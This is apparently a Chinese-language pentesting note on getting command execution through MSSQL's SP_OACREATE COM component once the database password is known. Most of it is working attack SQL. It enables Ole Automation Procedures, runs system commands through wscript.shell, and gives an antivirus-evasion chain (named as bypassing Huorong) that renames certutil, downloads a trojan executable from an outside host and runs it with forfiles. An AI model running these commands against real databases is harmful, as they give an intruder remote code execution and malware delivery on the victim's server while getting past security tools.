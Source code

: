 ![](./images/13.png)

补充一下针对`Mssql`数据库命令执行中对于`COM`组件利用的手法，借助`Sql Server`中的`COM`组件`SP_OACREATE`来执行系统命令，利用前提条件：
- `Mssql`数据库服务未降权
- 已获取到数据库密码

```sql
# 判断SP_OACREATE状态，存在返回1
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'

# 启用SP_OACREATE
EXEC sp_configure 'show advanced options', 1;   
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'Ole Automation Procedures', 1;   
RECONFIGURE WITH OVERRIDE;

# 利用SP_OACREATE执行命令，该方式无回显
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\windows\system32\cmd.exe /c whoami >C:\\1.txt'
```

绕过思路（免杀火绒的马子）：

```sql
# 将certutil.exe复制到C:\Windows\Temp\目录下并重命名
declare @o int exec sp_oacreate 'scripting.filesystemobject', @o out exec sp_oamethod @o, 'copyfile',null,'C:\Windows\System32\certutil.exe' ,'C:\Windows\Temp\h3.exe';

# 远程下载马子
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Windows\Temp\h3.exe -urlcache -split -f "http://192.168.21.42:9999/222.exe" C:\Windows\Temp\222.exe'

# 利用forfiles来运行马子
declare @runshell INT Exec SP_OACreate 'wscript.shell',@runshell out Exec SP_OAMeTHOD @runshell,'run',null,'forfiles /c C:\Windows\Temp\222.exe';
```
